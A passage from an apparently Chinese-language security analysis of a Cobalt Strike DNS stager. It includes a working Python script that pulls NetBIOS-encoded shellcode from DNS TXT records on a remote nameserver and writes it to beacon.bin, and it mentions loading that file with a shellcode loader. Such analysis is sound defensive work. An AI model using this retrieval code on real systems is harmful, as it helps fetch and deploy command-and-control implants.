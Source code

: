 ​		可以看到，对Shellcode只是进行简单的NetBios编码，编码后再和固定字符拼接。所以我们只需将字符串aa和gogo中间部分的数据提取出来进行NetBios解码便可以得到Shellcode。

​		以上过程很容易就可以用Python实现，可以参考如下代码:

```python
import time
from dns.resolver import *
from itertools import *
​
def stager():
    buff = ""
    str1 = 'abcdefghijklmnopqrstuvwxyz'
    resolver = dns.resolver.Resolver()
    resolver.nameservers = ['192.168.100.101']
    for i in product(str1, str1, str1):
        dnsc = '{0}.feeds.123456.ns.dns.com'.format(''.join(i[::-1])).strip()
        try:
            text = resolver.resolve(dnsc, 'txt')[0].to_text().strip('"')
        except NoNameservers:
            break
        except:
            return
        if text=="":
            break    
        #time.sleep(0.3)
        buff = buff + text
        
    if "aa" in buff and "gogo" in buff:
        f = open("beacon.bin", "wb")
        f.write(bytearray(netbios_decode(buff.split('gogo')[-1].split('aa')[0])))
        f.close()
​
​
                                
def netbios_decode(netbios):
    i = iter(netbios.upper())
    try:
        return [((ord(c)-ord('A'))<<4)+((ord(next(i))-ord('A'))&0xF) for c in i]
    except:
        return ''
   
​
if __name__=="__main__":
  stager()
```

​		运行上面的Python脚本后会在脚本目录下生成beacon.bin文件，可以直接使用Beacon Parser脚本解析配置，也可以直接使用Shellcode Loader加载上线。

![img](https://mmbiz.qpic.cn/mmbiz_png/ibXzNXqPKUhyiaFaXbXOGI0vce3pvpib915Oz7EAExGqdaMwcsYDmkicnskG9ib2Ulv2XvFcI4L27bKwrPkFNhVPHlA/640?wx_fmt=png)



#### 0x02 特征分析
